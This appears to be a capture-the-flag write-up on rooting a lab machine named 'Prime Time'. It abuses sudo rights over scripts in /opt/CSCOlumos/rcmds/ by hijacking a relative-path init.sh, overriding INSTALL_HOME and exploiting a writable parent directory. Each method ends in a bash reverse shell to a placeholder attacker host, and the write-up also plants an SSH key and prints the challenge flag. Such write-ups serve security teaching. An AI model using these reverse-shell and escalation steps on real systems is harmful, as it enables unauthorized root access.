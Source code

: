 # Prime Time (root)
<p align="center">
    <img src="img/prime_time_root_chall.png" alt="Challenge" width="500"/>
</p>

The shell we got from exploiting the ActiveMQ service only gives us a *pseudo-shell* (which is a bit annoying to use), so we start by adding our ssh public-key to `/home/activemq/.ssh/authorized_keys` so that we can ssh into the machine.

As the user `prime` we have some sudo-rights which we are going to exploit to root the machine.
```
[prime@ip-10-128-2-125 ~]$ sudo -l
Matching Defaults entries for prime on ip-10-128-2-125:
    !visiblepw, always_set_home, match_group_by_gid, always_query_group_plugin, env_reset, env_keep="COLORS DISPLAY HOSTNAME HISTSIZE KDEDIR LS_COLORS",
    env_keep+="MAIL PS1 PS2 QTDIR USERNAME LANG LC_ADDRESS LC_CTYPE", env_keep+="LC_COLLATE LC_IDENTIFICATION LC_MEASUREMENT LC_MESSAGES",
    env_keep+="LC_MONETARY LC_NAME LC_NUMERIC LC_PAPER LC_TELEPHONE", env_keep+="LC_TIME LC_ALL LANGUAGE LINGUAS _XKB_CHARSET XAUTHORITY",
    secure_path=/sbin\:/bin\:/usr/sbin\:/usr/bin

User prime may run the following commands on ip-10-128-2-125:
    (ALL) SETENV: NOPASSWD: /opt/CSCOlumos/rcmds/
```

We are allowed to set environment variables and run scripts located in `/opt/CSCOlumos/rcmds/`. Inside this directory there are 88 (!) scripts which we can run.
```
[prime@ip-10-128-2-125 ~]$ ls /opt/CSCOlumos/rcmds/ -l | wc -l
88
```

With this many scripts to analyze for vulnerabilities the easiest method is probably to look at the smaller ones. There are multiple scripts which can be abused to escalate our privileges to root, using the same method(s). I ended up using the `hmadmin.sh` script to solve the challenge.
```
[prime@ip-10-128-2-125 rcmds]$ cat hmadmin.sh
#!/bin/bash
. init.sh

$INSTALL_HOME/bin/hmadmin.sh
```

It first executes `init.sh`, which is a script doing a lot of stuff (e.g. set the `$INSTALL_HOME` environment variable to `/opt/CSCOlumos`), but most importantly, its path is not absolute. This means that we can be in any directory executing `/opt/CSCOlumos/rcmds/hmadmin.sh`, and it will search for `init.sh` in our current working directory. Because we can execute `/opt/CSCOlumos/rcmds/hmadmin.sh` as root, and that script executes `init.sh` in our CWD (in this case /dev/shm), we can create an `init.sh` which gives us a reverse shell.
```
[prime@ip-10-128-2-125 shm]$ pwd
/dev/shm
[prime@ip-10-128-2-125 shm]$ ls
init.sh
[prime@ip-10-128-2-125 shm]$ cat init.sh
#!/bin/bash

/bin/bash -c "sh -i >& /dev/tcp/<attacker_ip>/9001 0>&1"
```

Running the command `sudo /opt/CSCOlumos/rcmds/hmadmin.sh` and listening on port 9001 with `nc -lnvp 9001` then gives us shell as root!
```
$ nc -lnvp 9001
listening on [any] 9001 ...
connect to [<attacker_ip>] from (UNKNOWN) [10.128.2.125] 34292
sh-4.2# id
id
uid=0(root) gid=0(root) groups=0(root) context=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023
sh-4.2# cat /root/root.txt
cat /root/root.txt
EPT{5b2f8f8681b6621b519ef09adf371174}
```


**Note:** During the ctf my exploit looked a little different. I made my own `init.sh` which basically was empty, created my own `bin/hmadmin.sh` in CWD which executed the reverse shell, and set the `INSTALL_HOME` environment variable to CWD to execute my own `bin/hmadmin.sh` file. This lead to the *real* `hmadmin.sh` to search for and execute my `bin/hmadmin.sh`
```
[prime@ip-10-128-2-125 shm]$ pwd
/dev/shm
[prime@ip-10-128-2-125 shm]$ ls
bin  init.sh
[prime@ip-10-128-2-125 shm]$ ls bin
hmadmin.sh
[prime@ip-10-128-2-125 shm]$ cat init.sh
#!/bin/bash

echo "Executed"
[prime@ip-10-128-2-125 shm]$ cat bin/hmadmin.sh
#!/bin/bash

/bin/bash -c "sh -i >& /dev/tcp/<attacker_ip>/9001 0>&1"
```

Running the command `sudo INSTALL_HOME=/dev/shm /opt/CSCOlumos/rcmds/hmadmin.sh` gives a reverse shell as root, similar to the other technique.

## Bonus: Prime Time (root)
In addition to the `path hijack` vulnerability to escalate privileges to root, there is an `insecure file permission` vulnerability as well that can be exploited!

As a reminder, we can run scripts located in `/opt/CSCOlumos/rcmds/` as root.
<p align="center">
    <img src="img/prime_time_meme.png" alt="Meme" width="500"/>
</p>

Whoops...
```
[prime@ip-10-128-3-174 CSCOlumos]$ pwd
/opt/CSCOlumos
[prime@ip-10-128-3-174 CSCOlumos]$ ls -al
total 172
drwxrwxr-x. 60 prime root     4096 Nov  5 06:15 .
drwxr-xr-x.  4 root  root       39 Oct 15 03:42 ..
```

Apparently, we just own the directory `/opt/CSCOlumos/` as the user `prime`, so we can create a new `rcmds` directory with any scripts we want inside, and run them as root...
```
[prime@ip-10-128-3-174 CSCOlumos]$ pwd
/opt/CSCOlumos
[prime@ip-10-128-3-174 CSCOlumos]$ ls rcmds/
shell.sh
[prime@ip-10-128-3-174 CSCOlumos]$ cat rcmds/shell.sh
#!/bin/bash

/bin/bash -c "sh -i >& /dev/tcp/<attacker_ip>/9001 0>&1"
```

Running this script gives us a root shell once again.
```
$ nc -lnvp 9001
listening on [any] 9001 ...
connect to [<attacker_ip>] from (UNKNOWN) [10.128.3.174] 52254
sh-4.2# id
id
uid=0(root) gid=0(root) groups=0(root) context=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023
```
